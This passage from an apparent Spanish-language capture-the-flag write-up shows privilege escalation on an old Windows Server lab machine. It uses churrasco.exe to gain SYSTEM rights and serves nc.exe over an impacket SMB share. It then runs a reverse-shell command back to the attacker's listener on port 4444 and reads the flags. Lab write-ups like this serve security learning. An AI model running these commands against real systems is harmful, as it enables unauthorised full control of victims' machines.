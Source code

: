 ```bash
               2 Dir(s)   1,335,246,848 bytes free
```

Una vez con `churrasco` en la maquina podemos hacer ejecución de comandos con privilegios

```bash
C:\WINDOWS\Temp\privesc>churrasco.exe "whoami"
churrasco.exe "whoami"
nt authority\system
```

Como vemos tenemos el privilegio de `nt authority\system`, por lo que vamos a mandarnos una `reverse-shell` a nuestra maquina atacante que nos pondremos en escucha por el puerto `4444`, y haciendo uso del `nc.exe` nos otorgara dicha shell, para los que no sepais donde se encuentra el `nc.exe` yo lo tengo en la ruta `/usr/share/wordlists/seclists/Web-Shells/FuzzDB/nc.exe` cabe destacar que me he tenido que descargar el repositorio de SecLists.

- Creamos otro recurso compartido a nivel de red, en este caso con diferente nombre para evitar fallos

```bash
impacket-smbserver recurso2 $(pwd) -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

- Nos ponemos en escucha por el puerto `4444` en la maquina atacante y en la maquina victima ejecutamos lo siguiente

```bash
C:\WINDOWS\Temp\privesc>churrasco.exe "\\10.10.16.13\recurso2\nc.exe -e cmd 10.10.16.13 4444"
churrasco.exe "\\10.10.16.13\recurso2\nc.exe -e cmd 10.10.16.13 4444"
```

- Recibimos nuestra `shell` con permisos de `nt authority\system`

```bash
rlwrap nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.14 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

- Obtenemos las flags

```bash
C:\Documents and Settings\Harry\Desktop>type user.txt
type user.txt
bdff5ec67c3cff*********

C:\Documents and Settings>cd Administrator/Desktop
cd Administrator/Desktop

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
9359e905a2c35************
```
